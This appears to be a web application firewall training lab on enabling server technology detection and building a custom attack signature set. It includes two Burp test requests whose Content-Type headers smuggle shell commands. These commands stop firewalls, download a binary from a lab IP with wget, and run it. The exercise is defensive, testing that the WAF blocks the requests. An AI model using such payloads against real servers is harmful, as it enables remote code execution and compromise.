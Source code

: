 Exercise 3.3: Server Technologies and Custom Signature Sets
-------------------------------------------------------------

Objective
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this exercise we will examine server technologies and custom signature sets.  Server Technologies function allows you to automatically discover server-side frameworks, web servers and operating systems.  This feature helps when the backend technologies are not well known.  The feature can be enabled to auto detect.  You can also add the technologies that you know.  Creating custom signature sets allows you to define what signature groupings work best for your needs.  In this exercise we will explore both.

Task 1 - Server Technologies
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  Go to **Security > Application Security > Policy Building > Learning and Blocking Settings**

2.  Locate **Server Technologies** and expand the option.  Click **Enable Server Technology Detection**

.. image:: images/image1_3_3.png
    :width: 600 px

3.  Make sure to save and Apply Policy.

.. NOTE:: Our policy is currently in manual and we would need to manaully accept all server technologies suggestions to build the server technology signature sets.  If the policy were in automatic learning server technologies would automatically be accepted once the threshold was met.

4.  Click on the diagonal arrow to the left of the Enable Server Technology Dectection.  This will open the Server Technologies configuration which can also be found by going to **Security > Application Security > Policy > Server Technologies**

.. image:: images/image2_3_3.png
    :width: 600 px

5. Click on the drop down box and you will find a list of various server-side technologies to choose from.

.. image:: images/image3_3_3.png
    :width: 600 px

6.  Choose **Apache Tomcat** from the list.  You will be prompted that Java Servlet/JSP will also be added.  Click okay

.. image:: images/image4_3_3.png
    :width: 600 px

7.  Choose **Unix/Linux** from the list and click ok.  Make sure to click Save and Apply Policy.

8.  Navigate to **Security > Application Security > Policy Building > Learning and Blocking Settings**

9.  Expand Attack Signatures and you should now see the additional server technology signature sets enabled and in blocking.

.. image:: images/image5_3_3.png
    :width: 600 px
10.  Time to launch some framework attacks.

11. Back in BURP navigate to the repeater tab and adjust the payload to the following and hit go:

::

  POST https://webgoat.f5demo.com/WebGoat/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=f5DEMOs4u!

12. You should receive the Request Rejected Page as output.

13. Run a second framework attack

::

  POST https://webgoat.f5demo.com/WebGoat/login HTTP/1.1
  User-Agent: IG88
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: cd /dev/shm; wget http://10.1.10.145:443/lmydess; chmod 777 lmydess; ./lmydess;
  Content-Length: 38
  Host: TheEmpireDidNothingWrong

  username=f5student&password=f5DEMOs4u!

14. Again, you should receive a Request Rejected page as output as shown here:

.. image:: images/image1.png
    :width: 600 px

15. Navigate to the Application Security Event Logs and review the alerts. Notice they are of different severity but how do we know that these were actually framework related signatures?

.. image:: images/image2.png
    :width: 600 px

16. Click on the **Attack Signature Detected** hyperlink and then click on the little blue "i" next to the signature for more information.

.. image:: images/image3.png
    :width: 600 px


.. image:: images/image4.png
    :width: 600 px
Task 2 - Create Custom Signature Set
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  Go to **Security > Options > Application Security > Attack Signature > Attack Signature Sets**

2.  Click on Create

Fill out the following -
  - Name - ``my_signature_set``
  - Type - ``filter-based``
  - Default Blocking Actions -  ``leave Learn/Alarm/Block checked``
  - Assign To Policy by Default -  ``Uncheck this box``  (in production enabling this feature ensures this signature set is assigned to all newly created policies)
  - Signature Type -  ``Request``
  - Attack Type -  ``All``
  - Systems -  ``Unix/Linux, Apache, Apache Tomcat, Java Servlets/JSP`` Move to the right
  - Accuracy -  ``All``
  - Risk - ``Greater Than Equal To High``
  - User-defined -  ``All``
  - Update Date -  ``All``

3.  Click on Create.  Now you have a created your own custom signature set of high accuracy signatures with server side technologies and low risk.

.. image:: images/image6_3_3.png
    :width: 600 px

4.  Navigate to **Security > Application Security > Policy Building > Learning and Blocking Settings**

5.  Expand Attack Signatures.  Click on Change and check your newly created signature set. Cick **Change**.

.. image:: images/image7.png
    :width: 600 px

.. image:: images/image8.png
    :width: 600 px

6.  Click Save and Apply policy

7.  Use BURP again with either of the two previous attacks and ensure your new custom signature set is blocking them. Examine the event logs.
